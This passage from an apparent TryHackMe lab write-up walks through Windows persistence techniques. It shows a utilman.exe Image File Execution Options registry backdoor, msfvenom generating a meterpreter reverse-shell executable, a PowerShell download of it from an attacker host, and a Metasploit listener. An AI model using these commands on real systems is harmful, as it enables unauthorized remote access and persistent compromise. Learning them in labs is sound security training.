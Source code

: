 ![](https://i.imgur.com/TNJVyjL.png)

Checking Task Scheduler you can see there is a task created and will run every time a users logs in.

![](https://i.imgur.com/299wh4y.png)

**Backdooring RDP**

An example would be using Metasploit to backdoor OSK (On-screen keyboard).

Metasploit sticky_keys module can be used:

![](https://i.imgur.com/0klqDqF.png)

Sign out/Lock the account and press Windows Key + U and choose On-screen keyboard. A CMD should be prompted.

![](https://i.imgur.com/3I7jaCp.png)

The same results can be achieved by editing the registry using the command:

`REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f`

```
bibo318@parrot:~/CTFs/tryhackme/Persistence$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.106.222 LPORT=9002 -f exe > backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

`Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\tryhackme\Downloads\backdoor.exe"`

```ps1

PS C:\Users\tryhackme> cd .\Downloads\
PS C:\Users\tryhackme\Downloads> Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\tryhackme\Downloads\backdoor.exe"
PS C:\Users\tryhackme\Downloads> ls


    Directory: C:\Users\tryhackme\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/30/2020   1:32 PM          73802 backdoor.exe
```

```
bibo318@parrot:~/CTFs/tryhackme/Persistence$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:9001
```